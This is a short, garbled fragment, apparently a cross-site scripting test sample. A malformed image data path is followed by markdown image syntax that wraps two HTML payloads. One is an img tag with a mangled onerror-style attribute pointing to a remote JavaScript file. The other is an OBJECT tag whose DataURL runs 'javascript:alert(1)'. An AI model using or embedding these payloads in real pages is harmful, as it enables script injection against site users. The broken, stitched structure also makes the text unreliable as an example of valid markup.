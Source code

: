 ![

<img src="" OnErro.R.="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

](()
